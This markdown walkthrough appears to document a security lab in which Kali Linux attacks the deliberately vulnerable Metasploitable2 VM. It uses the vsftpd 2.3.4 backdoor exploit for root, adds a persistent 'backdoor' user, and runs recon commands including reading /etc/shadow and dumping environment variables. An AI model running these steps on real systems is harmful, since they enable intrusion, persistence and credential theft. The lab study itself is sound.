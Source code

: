 # Metasploit Exploit Walkthrough

This markdown contains a detailed walkthrough of the steps taken during this project using Kali Linux and Metasploitable2.


## 1. Lab Setup

- Imported Kali Linux (attacker) and Metasploitable2 (target) into VMWare
- Set both VMs to host-only adapter mode
- Verified network connectivity using the following command from Kali:

  -> bash
      - ping 192.168.xxx.xxx

## 2. Scan and Identify Open Ports
  -> bash
      - nmap -sV 192.168.xxx.xxx
      (This will show you available services (like FTP, Samba) on the target (Metasploitable2) VM.)

## 3. Exploit: vsftpd_234_backdoor
  -> bash
      - msfconsole
  Inside Metasploit: 
  -> bash
      - use exploit/unix/ftp/vsftpd_234_backdoor
      - set RHOSTS 192.168.xxx.xxx
      - run

  After execution, you’ll get a root shell via port 6200. You can confirm access with:
  -> bash
      - whoami

## 4. Post-Exploitation: Create a Backdoor User
  -> bash
      - adduser backdoor
      # if password setting does not automatically appear after this, type:
      - passwd backdoor  # and then set a password


## 5. SSH into Backdoored User
  From your Kali terminal:
  -> bash
      - ssh backdoor@192.168.xxx.xxx

  Use the password you set and confirm shell access:
  -> bash
      - whoami
      
## 6. Post Exploitation Recon Commands

  # 1. Check system info and kernel version
  uname -a

  # 2. See current user and UID
  whoami
  id

  # 3. View running processes (useful for finding services and privilege escalations)
  ps aux

  # 4. Check login users and session history
  w
  last

  # 5. Display network interfaces and IP configuration
  ifconfig
  # or for modern systems:
  ip a

  # 6. View open ports and listening services
  netstat -tulpn
  # or if not installed:
  ss -tulpn

  # 7. Review scheduled tasks (cron jobs)
  cat /etc/crontab
  ls -la /etc/cron.*

  # 8. List environment variables (check for misconfigurations or secrets)
  printenv

  # 9. Check installed software and version info
  dpkg -l
  # or if RPM-based:
  rpm -qa

  # 10. Explore user account info
  cat /etc/passwd
  cat /etc/shadow  # Requires root

